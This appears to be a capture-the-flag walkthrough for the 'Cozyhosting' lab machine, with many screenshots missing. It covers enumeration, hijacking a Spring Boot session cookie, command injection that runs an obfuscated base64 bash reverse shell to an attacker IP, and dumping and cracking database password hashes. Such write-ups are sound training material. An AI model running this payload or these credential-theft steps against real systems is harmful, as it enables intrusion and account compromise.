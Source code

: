 # Cozyhosting

## Enumeration

### NMAP

```
nmap -sCV -T5 10.129.229.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-19 13:26 PST
Warning: 10.129.229.88 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.229.88
Host is up (0.089s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
1201/tcp filtered nucleus-sand
1594/tcp filtered sixtrak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.71 seconds
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### FeroxBuster



```
feroxbuster -u http://cozyhosting.htb -x pdf -x js,html -x php txt json,docx
```

### DirSearch

```
dirsearch -u http://cozyhosting.htb
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Web Enumeration

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

The web page seems to be running Spring Boot

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

## Foothold

It seems that we can view the sessions

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Paste in kandersons cookie and hit refresh on the browser

### Command Injection

Capture the request to add a host name and identify that command injection is plausible&#x20;

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

generate the payload for the reverse shell

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```rust
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDQgMD4mMQ=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

```

URL Encode Key Characters in Burp

### Reverseshell

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

and catch shell in NC listener

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

## Privledge Esc from app

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### jd-gui

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

### Postgres DB

```
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Stabilize the shell

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

```
-l
```

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Database cozyhosting

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

```
\d
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

```
select * from users;
```

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

### Hashcat

```
hashcat -a 0 -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

This was not the admin password like it states but we have a user named josh

```
app@cozyhosting:/home$ ls
josh
app@cozyhosting:/home$
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Privilege Esc from Josh to Root

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
